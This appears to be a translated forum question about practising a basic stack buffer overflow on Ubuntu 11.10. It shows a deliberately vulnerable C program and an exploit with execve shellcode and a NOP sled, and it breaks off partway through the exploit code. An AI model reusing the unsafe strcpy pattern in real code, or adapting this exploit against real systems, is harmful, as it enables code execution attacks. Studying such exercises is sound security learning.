 # ubuntu-11.10 - 基本缓冲区溢出练习

> ID：13217071
> 
> 赞同：2
> 
> 时间：2012-11-04T08:06:53.430
> 
> 标签：ubuntu-11.10, buffer-overflow

我最近一直在练习一些基本的基于堆栈的缓冲区溢出任务，我写了一个这样的易受攻击的程序：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char **argv)
{
        if (argc<2) {
                puts("Need enough args!!");
                exit(0);
        }

        char buf[400];
        strcpy(buf,argv[1]);
        printf("Hi, %s\n",buf);
        return 0;
} 
```

和这样的漏洞利用程序：

```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#define ATK_L 430
#define VUL_L 400
#define NOP_L 12

int main(){
    char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                "\x68\x68\x2f\x62\x69\x6e\x89"
                "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                "\xcd\x80\x31\xc0\x40\xcd\x80";

    char *atk,vul[]="./vul1 ";
    atk=(char*)malloc(sizeof(char)*ATK_L);
    unsigned long i,ret,*ptr,ptr2;

    ret=(unsigned long)atk;
    ptr=(unsigned long*)atk;

    for(i=0;i<ATK_L;i+=4){
        *(ptr++)=ret;
    }

    for(i=0;i<NOP_L;i++){
        atk[i]='\x90';
    }

    ptr2=0;
    for(i=NOP_L;i<NOP_L+strlen(shellcode);i++){
        atk[i]=shellcode[ptr2++];
```